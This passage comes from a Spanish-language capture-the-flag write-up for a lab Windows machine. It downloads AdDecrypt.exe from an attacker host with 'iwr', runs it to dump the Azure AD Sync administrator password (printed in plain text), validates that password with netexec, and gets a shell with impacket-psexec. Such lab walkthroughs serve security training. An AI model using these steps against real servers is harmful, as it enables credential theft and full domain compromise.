 - Hacemos solicitud de los recursos desde máquina víctima:

``iwr http://10.10.14.8/AdDecrypt.exe -o AdDecrypt.exe``

``iwr http://10.10.14.8/mcrypt.dll -o mcrypt.dll``

![Pasted image 20250315145930](https://github.com/user-attachments/assets/cdc6df66-75fc-436f-84cb-12d23c8a5142)

Una vez los tenemos en máquina víctima, seguimos las instrucciones del github:

- Nos dirigimos al directorio: C:\Program Files\Microsoft Azure AD Sync\Bin y ejecutamos:
  
``C:\Temp\AdDecrypt.exe -FullSQL``

![Pasted image 20250315150238](https://github.com/user-attachments/assets/9a935a21-fe58-41ea-abbd-325b8cca655a)

Ojito con lo que tenemos:

- administrator : d0m@in4dminyeah!

Vamos a validar las credenciales con netexec:

![Pasted image 20250315150335](https://github.com/user-attachments/assets/802f4131-7544-428f-8d05-a38594ec755b)

Tenemos Pwn3d!, por lo que podemos hacer uso de wmiexec, psexec o winrm (previa validación con netexec).


``impacket-psexec administrator@10.10.10.172``

![Pasted image 20250315150746](https://github.com/user-attachments/assets/3c86e611-1a5e-48e7-b457-40b949f799e4)


Encontramos la flag de administrador en C:\Users\Administrator\Desktop:

![Pasted image 20250315150842](https://github.com/user-attachments/assets/2d0fda0d-2f5f-491b-9aaf-0b3b35d2f441)
